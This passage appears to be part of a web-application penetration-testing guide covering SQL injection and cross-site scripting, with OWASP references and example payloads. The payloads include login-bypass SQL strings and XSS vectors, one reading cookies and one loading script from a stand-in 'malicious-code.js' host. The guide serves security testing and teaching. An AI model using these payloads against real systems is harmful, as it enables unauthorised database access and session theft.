 Please refer to the [OWASP](https://www.owasp.org/) links in each sub-section for more information.

#### SQL Injection

If any inputs are used in queries to a database they could possibly be vulnerable to SQL injection. Combined with misconfiguration issues such as **verbose error messages** this can lead to significant amounts of data being compromised by an attacker.

I recommend reading [this wiki by Netspi](https://sqlwiki.netspi.com/#mysql) when testing for SQL injection as it's a great resource. At it's simplest though, if you get a database error back from any of these payloads odds are that the target is vulnerable to SQL injection.

`Sqlmap` is a tool that allows for testing for sql injection in an automated way, and I will dig into its use further in the **exploitation** section.

[OWASP - Testing for SQL Injection](https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005))

**Examples**

```text
' OR 1=1 -- 1
' OR '1'='1
' or 1=1 LIMIT 1;--
admin';--

http://www.example.com/product.php?id=10 AND 1=1
```

#### Cross-site Scripting (XSS)

Cross-site Scripting (XSS) attacks occur when an attacker uses a web application to send malicious code, generally in the form of JavaScript, to a different end user.

There are 3 different types of XSS that you should keep an eye out for:
1. **Stored** - A Stored XSS vulnerability exists when data provided to a web application by a user is first stored persistently on the server.
2. **Reflected** - A Reflected XSS vulnerability exists when data provided by a web client is used immediately by server-side scripts to generate a page of results for that user.
3. **DOM-Based** - A DOM-based XSS vulnerability exists within a page's client-side script itself.

[OWASP - Testing for Cross-site Scripting](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)

**Examples**

```html
<IMG SRC=javascript:alert('XSS')>
"><script>alert('XSS')</script><"
" onmouseover="alert('XSS')

http://server/cgi-bin/testcgi.exe?<SCRIPT>alert(“Cookie”+document.cookie)</SCRIPT>
%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
```

#### XML Injection
